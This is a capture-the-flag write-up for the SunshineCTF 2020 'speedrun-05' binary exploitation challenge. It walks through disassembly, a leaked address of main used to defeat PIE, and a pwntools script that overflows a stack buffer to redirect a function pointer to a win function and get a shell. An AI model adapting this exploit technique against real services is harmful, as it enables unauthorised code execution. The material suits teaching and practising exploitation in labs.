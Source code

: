 # speedrun-05

## Task

nc chal.2020.sunshinectf.org 30005

File: chall_05

Tags: binary exploitation

## Solution

Now we have NX and PIE enabled, but a `win` function again. The `vuln` leaks use the address of `main` now which is in the same address region as `win`.

```nasm
[0x00000650]> afl
0x00000650    1 42           entry0
0x00000680    4 50   -> 40   sym.deregister_tm_clones
0x000006c0    4 66   -> 57   sym.register_tm_clones
0x00000710    5 58   -> 51   sym.__do_global_dtors_aux
0x00000750    1 10           entry.init0
0x00000860    1 2            sym.__libc_csu_fini
0x000007a6    1 73           sym.vuln
0x00000620    1 6            sym.imp.printf
0x00000630    1 6            sym.imp.fgets
0x00000864    1 9            sym._fini
0x000007f0    4 101          sym.__libc_csu_init
0x0000075a    1 19           sym.win
0x00000610    1 6            sym.imp.system
0x0000076d    1 57           main
0x00000600    1 6            sym.imp.puts
0x000005d8    3 23           sym._init
0x00000000    3 97   -> 123  loc.imp._ITM_deregisterTMCloneTable
[0x00000650]> pdf@sym.vuln
            ; CALL XREF from main @ 0x79e
┌ 73: sym.vuln ();
│           ; var char *s @ rbp-0x40
│           ; var int64_t var_8h @ rbp-0x8
│           0x000007a6      55             push rbp
│           0x000007a7      4889e5         mov rbp, rsp
│           0x000007aa      4881ec400200.  sub rsp, 0x240
│           0x000007b1      488d35b5ffff.  lea rsi, [main]             ; 0x76d
│           0x000007b8      488d3dd40000.  lea rdi, str.Yes_I_m_going_to_win:__p ; 0x893 ; "Yes I'm going to win: %p\n" ; const char *format
│           0x000007bf      b800000000     mov eax, 0
│           0x000007c4      e857feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x000007c9      488b15400820.  mov rdx, qword [obj.stdin]  ; obj.__TMC_END
│                                                                      ; [0x201010:8]=0 ; FILE *stream
│           0x000007d0      488d45c0       lea rax, [s]
│           0x000007d4      be64000000     mov esi, 0x64               ; 'd' ; int size
│           0x000007d9      4889c7         mov rdi, rax                ; char *s
│           0x000007dc      e84ffeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x000007e1      488b55f8       mov rdx, qword [var_8h]
│           0x000007e5      b800000000     mov eax, 0
│           0x000007ea      ffd2           call rdx
│           0x000007ec      90             nop
│           0x000007ed      c9             leave
└           0x000007ee      c3             ret
```

Since we have `char *s` at `rbp-0x40` and `rbp-0x8` is moved into `rdx`, our offset is 56.

We now just need to calculate the offset of `win` to `main` and add that to the leaked address. `19` in this case.

```python
from pwn import *

#p = process("./chall_05")
p = remote("chal.2020.sunshinectf.org", 30005)

info(p.recvline())
p.sendline()
info(p.recvuntil("Yes I'm going to win: "))
addr = p.recv()
info(addr)

payload  = "A" * 56   
payload += p64(int(addr, 16) - 19)

p.sendline(payload)
p.interactive()
```

And we get our shell:

```bash
$ python2 pwny.py
[+] Opening connection to chal.2020.sunshinectf.org on port 30005: Done
[*] Race, life's greatest.
[*] Yes I'm going to win:
[*] 0x55c37e57776d
[*] Switching to interactive mode
$ ls
chall_05
flag.txt
$ cat flag.txt
sun{chapter-four-9ca97769b74345b1}
```
